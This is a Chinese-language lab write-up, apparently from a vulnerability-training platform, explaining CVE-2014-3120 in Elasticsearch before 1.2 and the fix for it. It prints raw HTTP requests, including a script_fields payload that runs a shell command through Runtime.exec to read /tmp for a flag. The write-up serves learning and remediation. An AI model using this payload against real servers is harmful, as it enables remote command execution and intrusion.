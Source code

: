 ElasticSearch命令执行漏洞(CVE-2014-3120)

## 一、漏洞描述

Elasticsearch 是一个基于 Lucene 库的搜索引擎，具有 HTTP Web 接口和无模式 JSON 文档。Elasticsearch 是用 Java 开发的，其支持 MVEL、js、Java 等语言，其老版本默认语言为 MVEL。

MVEL -一个被众多 Java 项目使用的开源的表达式语言。

Elasticsearch 1.2之前的版本默认配置启用了动态脚本，该脚本允许远程攻击者通过 _search 的 source 参数执行任意 MVEL 表达式和 Java 代码。

## 二、影响版本

Elasticsearch < 1.2


## 三、利用流程



1 启动 CVE-2014-3120 镜像，打开其访问地址查看，可见其版本为1.1.1
![avatar](./1.png)
![avatar](./2.png)

2 向 Elasticsearch 添加一条数据
![avatar](./3.png)
其数据包为

    POST /website/blog/ HTTP/1.1
    Host: 118.193.36.37:33967
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:76.0) Gecko/20100101 Firefox/76.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
    Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
    Accept-Encoding: gzip, deflate
    Connection: close
    Upgrade-Insecure-Requests: 1
    Cache-Control: max-age=0
    Content-Length: 26
    
    {
      "name": "vulfocus"
    }

3 script 为最终执行 Java 代码的地方，此字段会被默认当作脚本执行，按照其 json 格式向其填充要执行的代码即可
![avatar](./4.png)

最终目的为 /tmp 下的 flag，其数据包为

    POST /_search?pretty HTTP/1.1
    Host: 118.193.36.37:33967
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:76.0) Gecko/20100101 Firefox/76.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
    Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
    Accept-Encoding: gzip, deflate
    Connection: close
    Upgrade-Insecure-Requests: 1
    Cache-Control: max-age=0
    Content-Length: 361
```
{
    "size": 1,
    "query": {
      "filtered": {
        "query": {
          "match_all": {
          }
        }
      }
    },
    "script_fields": {
        "command": {
            "script": "import java.io.*;new java.util.Scanner(Runtime.getRuntime().exec(\"ls /tmp\").getInputStream()).useDelimiter(\"\\\\A\").next();"
        }
    }
}
```
4 填入得到的 flag，成功则出现 恭喜！通过
![avatar](./5.png)
![avatar](./6.png)
## 四、修复方案

1、升级到新版本，大于等于1.2版本即可解决此问题

2、设置 script.disable_dynamic = true，官方已在1.2版本中将 true 设置为默认值


参考：

https://nvd.nist.gov/vuln/detail/CVE-2014-3120

https://www.elastic.co/cn/community/security/

https://www.elastic.co/guide/en/elasticsearch/reference/current/modules-scripting.html

http://www.elasticsearch.org/guide/en/elasticsearch/reference/current/search-request-script-fields.html

https://github.com/elastic/elasticsearch/issues/5853

https://vulhub.org/#/environments/elasticsearch/CVE-2014-3120/

https://www.t00ls.net/viewthread.php?tid=29408
